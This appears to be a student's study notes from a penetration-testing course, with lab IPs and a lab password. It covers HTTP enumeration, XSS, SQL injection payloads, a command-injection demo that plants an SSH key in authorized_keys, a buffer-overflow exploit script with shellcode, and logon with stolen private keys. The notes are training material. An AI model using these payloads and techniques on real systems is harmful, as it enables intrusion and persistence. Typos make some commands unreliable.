 ## Misc 

            https://sec.cybbh.io/public/security/latest/index.html
#### Test Day: August 15th

            xfreerdp /u:student /v:10.50.37.222 /dynamic-resolution +glyph-cache +clipboard


            Jump Box:   ssh student@10.50.20.235 -X 
                        CHT8QBJ8TQBlv7S
                        JOHA-005-M

            LinOps:     ssh student@10.50.40.22 -X  

            WinBox:     ssh student@10.50.37.222
                         
            ctf : server -> http://10.50.20.250:8000/

## Day 1 - Recon/Research/Pen Testing
### Pen Testing

#### Pen Testing Test Reporting

    OPNotes
      Actions being taken that works, maps, the things that have worked. Keeping track of the steps

    Penetration Test Reporting
      Executive Summary
        The tops, not evertything but a summary
      Technical Summary
        In the weeds, the more technical stuff
## Day 2 - Web Explotation
### HTTP Methods
    GET, POST, HEAD, PUT

### HTTP Response Codes
    10X Info, 2XX Success, 30X Redir, 4XX Client Err, 5XX Serv Err

### JavaScript (JS)
    HTML Frame of the House
    CSS is the paint and decoration
    JavaScript is used to change things afterwards

### HTTP Enumeration
```
nmap -v -sT -T5 --script http-enum.nse 10.50.31.75 -> web enum
nikto -h 10.50.31.75 -> info about the sub dirs 

sudo apt install nikto -y
```

### Cross-Site Scripting
    Attacker puts bad stuff on trusted website, it allows it to execute bad code
#### Reflected XSS
    Not stored, run JS on website, changes url, bad code in url
#### Stored XSS
    Actually stored on server

### Demo
    lin-ops> ssh-keyget -t rsa "enter", "enter" is in /home/student/.ssh/id_rsa"
    passhprhase -> blank
    have genterated key
    cd ~/.ssh 
    ca id_rsa.pub(lic key) "generated public key"
    in search box
        : whoami -> www-data
        : cat /etc/passswd -> home dir is /var/www
        : ls -la /var/www -> see if .ssh file is created
        : mksir /var/www/.ssh
        : echo "ssh-rsa 'key' student@lin-ops" > /var/www/.ssh/authorized_keys

## Day 3 - Web Explotation  Part 2 - SQL Injection 
### MySql
    Unsanitized vs Sanitized Fields
        Unsanitized test, enter '
            will return info, no errors or jeneric error
        Santized: items are removed, escaped into single string

    Server-Side Query Processing
        Before Input
            name='$name'...
            nmae='JohnDoe'

### Injecting Statemnet
    User Enters TOM' OR 1='1 in the name and pass fields
    Truth Statemnet: tom 'OR 1=' 1

    Back End
        name='tom' OR 1='1' AND PASS='tom' OR 1='1'

##
    mysql
    use session;
    select * from user;
    select id from user where name='admin';  = 0
    select id from user where name='tom';  = none
    select * from user where name='tom' OR 1=1;  = eveyrthing
    stacking statements, chain statements togetyher with ;

    To find the version
        Audi' UNION SELECT @@version,database(); #

## Nesting Statements
    # ignore the rest or -- tells to ignore stuff, comment out some of the sql error

## Day 4 - Reverse Engineering
     
### X86_64 Assembly - Common Terms
    Heap, Stack, Gen. Register, Ctrl. Register, Flags Register
    
### Reverse Engineering Workflow (Software)
```Shell
#!/usr/bin/python2.7

# FILL UP THE BUFFER 
buf = "A" * 62

#EIP Register to JMP ESP

buf += "\x59\x3b\xde\xf7"

#The mem addresses for JMP ESP

'''
0xf7de3b59 "\x59\x3b\xde\xf7"
0xf7f588ab
0xf7f645fb
0xf7f6460f
'''
## Assits with encoding NOP SLED
buf += "\x90" * 10

# Shell Code / palyoad below
# set CMD whoami && ifconfig


buf += b"\xdb\xc3\xd9\x74\x24\xf4\x58\xbb\xe6\xef\x4a\x63"
buf += b"\x29\xc9\xb1\x0e\x31\x58\x19\x03\x58\x19\x83\xe8"
buf += b"\xfc\x04\x1a\x20\x68\x90\x7c\xe7\x08\x48\x52\x6b"
buf += b"\x5c\x6f\xc4\x44\x2d\x07\x15\xf3\xfe\xb5\x7c\x6d"
buf += b"\x88\xda\x2d\x99\x99\x1c\xd2\x59\xe9\x74\xbd\x38"
buf += b"\x78\xed\x61\x9d\xa4\xcd\x08\x87\xcb\x62\xa5\x21"
buf += b"\x65\x1b\x39\xf9\x26\x6a\xd8\xc8\x49"

print(buf)
```
### Post Exploitation
            MISC:
                        SSH
                        ssh <user>@<ip> <cmd>
                        ssh student@10.50.32.38 ls -lisa
                        Priv Key Logon
                                    find private key, can use it to authenticate without password
                                                chmod +x /<stolenkey>
                                                ssh -i <stolen key> <user>@<ip>
                        
#### Control Sockets

#### Enumeration

#### Exfiltration
